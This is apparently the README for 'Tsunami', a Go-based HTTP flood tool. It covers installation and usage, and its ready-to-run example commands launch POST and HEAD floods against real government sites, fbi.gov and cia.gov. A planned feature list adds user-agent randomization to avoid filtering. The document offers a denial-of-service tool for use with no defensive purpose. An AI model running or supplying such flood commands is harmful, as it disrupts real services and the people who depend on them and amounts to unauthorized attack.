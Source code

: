 # Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://example.com --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Examples
### Low Volume POST Flood Lasting Forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Ammar&password=g1thuB123"
```
### High Volume HEAD Flood Lasting For 10 Minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```

## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - User Agent randomization
 - Custom headers
 - Pretty display of attack stats
 - ???